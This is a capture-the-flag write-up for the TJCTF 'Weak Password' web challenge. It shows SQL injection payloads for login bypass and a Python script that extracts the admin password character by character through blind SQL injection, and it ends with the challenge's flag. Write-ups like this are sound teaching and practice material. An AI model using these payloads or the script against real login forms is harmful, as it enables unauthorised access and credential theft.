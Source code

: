 **WEAK PASSWORD** 


**Category:** Web
**Concepts:** sql injection, blind sqli

**Problem Statement:**
It seems your login bypass skills are now famous! One of my friends has given you a challenge: figure out his password on this [site](https://weak_password.tjctf.org/). He's told me that his username is admin, and that his password is made of up only lowercase letters and numbers. (Wrap the password with tjctf{...})

**Hints**
None


![image](../images/wp1.png)

The website is vulnerable to sql injection.
PoC query: admin' --

But the goal here is not to login, but to figure out the password. So I did a blind SQL injection to leak out the password.
PoC query: ' or password like 'b%' --

So I wrote a python script to achieve this

Response:
```python
import requests

current = ""
flag = True
while flag:
    flag = False
    url = "https://weak_password.tjctf.org/login"

    for ch in range(ord('a'), ord('z')+1):
        data = {"username": "admin", "password":f"' or password like '{current}{chr(ch)}%' --"}
        print(f"testing {current}{chr(ch)}")

        session = requests.Session()
        response = session.post(url, data = data)

        content = response.text
        words = content.split(" ")
        if("<p>Congratulations!" in words):
            flag = True
            print (f"GOT{current}{ch}")
            current+=chr(ch)
            break
    if not flag:
        for ch in range(0, 10):
            data = {"username": "admin", "password":f"' or password like '{current}{ch}%' --"}
            print(f"testing {current}{ch}")

            session = requests.Session()
            response = session.post(url, data = data)

            content = response.text
            words = content.split(" ")
            if("<p>Congratulations!" in words):
                flag = True
                print (f"GOT {current}{ch}")
                current+=str(ch)
                break

print(current)

```
Finally I got the password : blindsqli14519


**FLAG:** tjctf{blindsqli14519}


